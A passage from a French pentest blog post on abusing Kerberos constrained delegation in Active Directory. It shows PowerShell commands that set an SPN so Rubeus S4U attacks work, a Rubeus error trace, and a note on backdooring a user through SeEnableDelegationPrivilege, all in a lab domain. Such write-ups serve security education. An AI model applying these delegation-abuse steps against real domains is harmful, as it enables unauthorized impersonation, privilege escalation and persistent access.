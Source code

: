 ```powershell
PS C:\> Set-ADObject -Identity bleponge -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
PS C:\> Get-ADObject -Identity bleponge -Properties distinguishedName,samAccountName,samAccountType,userAccountControl,msDS-AllowedToDelegateTo,servicePrincipalName | fl

useraccountcontrol       : NORMAL_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION
serviceprincipalname     : nonexistent/BLAHBLAH
msds-allowedtodelegateto : {CIFS/DC, CIFS/DC.WINDOMAIN.LOCAL}
distinguishedname        : CN=Bob ble. Leponge,CN=Users,DC=windomain,DC=local
samaccountname           : bleponge
samaccounttype           : USER_OBJECT
```
  
Attention à la commande ```Set-ADObject -Identity bleponge -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}```.  
En effet, pour que le mécanisme de S4U2Self fonctionne avec Rubeus, un SPN doit être positionné sur l'utilisateur ```bleponge```, sans quoi une exception sera propagée:  
```
...
[!] Unhandled Rubeus exception:

System.NullReferenceException: Object reference not set to an instance of an object.
   at Rubeus.S4U.S4U2Proxy(KRB_CRED kirbi, String targetUser, String targetSPN, String outfile, Boolean ptt, String domainController, String altService, KRB_CRED tgs, Boolean opsec)
   at Rubeus.S4U.Execute(KRB_CRED kirbi, String targetUser, String targetSPN, String outfile, Boolean ptt, String domainController, String altService, KRB_CRED tgs, String targetDomainController, String targetDomain, Boolean s, Boolean opsec, String requestDomain, String impersonateDomain)
   at Rubeus.Commands.S4u.Execute(Dictionary`2 arguments)
   at Rubeus.Domain.CommandCollection.ExecuteCommand(String commandName, Dictionary`2 arguments)
   at Rubeus.Program.MainExecute(String commandName, Dictionary`2 parsedArgs)
```
  
Maintenant vous n'avez plus qu'à retourner sur notre section [Exploitation](#Exploitation) et à tout dérouler dans le contexte de notre utilisateur ```bleponge```.  
  
*En testant avec la classe de service ```HOST``` (HOST/DC), il nous a été impossible de lister notre share ```\\DC\C$```. Ceci a déjà été rencontré par [pixis](https://beta.hackndo.com/service-principal-name-spn/#cas-particulier---host).*  
  
## SeEnableDelegationPrivilege

Nous pouvons également backdoorer un utilisateur en lui attribuant le privilège ```SeEnableDelegationPrivilege```, cet utilisateur pouvant ainsi positionner le ```TRUSTED_TO_AUTH_FOR_DELEGATION``` sur une autre ressource. Cependant, nous aurons également besoin des droits nécessaires pour écrire le champs ```msDS-AllowedToDelegateTo```.  
    
# The End

N'hésitez pas à commenter / poser vos questions. Vous pouvez également me contacter sur [Twitter](https://twitter.com/phackt_ul).  
  
A bientôt.  
  
Phackt.  
